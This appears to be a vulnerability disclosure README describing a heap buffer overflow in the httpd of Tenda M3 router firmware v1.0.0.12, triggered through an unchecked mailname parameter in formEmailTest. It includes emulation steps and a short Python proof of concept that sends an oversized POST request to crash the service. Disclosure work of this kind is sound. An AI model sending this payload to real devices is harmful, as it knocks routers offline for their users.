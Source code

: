 # Tenda M3 contains heap buffer Overflow Vulnerability

## overview

- type: heap buffer overflow vulnerability

- supplier: Tenda https://www.tenda.com 

- product: TendaM3 https://www.tenda.com.cn/product/M3.html

- firmware download:   https://www.tenda.com.cn/download/detail-3133.html

- affect version: TendaM3 v1.0.0.12(4856)

## Description

### 1. Vulnerability Details

the `httpd` in directory `/bin` has a heap buffer overflow. The vunlerability is in fucntion `formEmailTest` 

It calls `malloc(0x28Cu)` to allocate heap buffer, and it  copies POST parameter `mailname` to heap buffer. 

![image-20220819115923913](readme.assets/image-20220819115923913.png)

`v3` is the length of `mailname`, but it doesn’t limit it. so if `v3>0x28C`, the `memcpy(v1, v2, v3)` will cause heap buffer overflow 

but it can cause `segmentation fault` when execute `memcpy(v1, v2, v3)` 

### 2. Recurring loopholes and POC

use qemu-arm-static to run the `httpd`, we need to patch it before run. 

- in `main` function, The `ConnectCfm` function didn’t work properly, so I patched it to `NOP` 
- The `R7WebsSecurityHandler` function is used for permission control, and I've modified it to access URLs that can only be accessed after login

poc of DOS(deny of service)

```python
import requests

data = {
    "mailname": "@"+"a"*0x600, 
    "mailpwd": "a"
}
cookies = {
    "user": "admin"
}
res = requests.post("http://127.0.0.1/goform/testEmail", data=data, cookies=cookies)
print(res.content)
```

![image-20220819120901584](readme.assets/image-20220819120901584.png)

![image-20220819121000275](readme.assets/image-20220819121000275.png)

we can see the size of dest is `0x291` and size of src is `0x600` 

![image-20220819121215734](readme.assets/image-20220819121215734.png)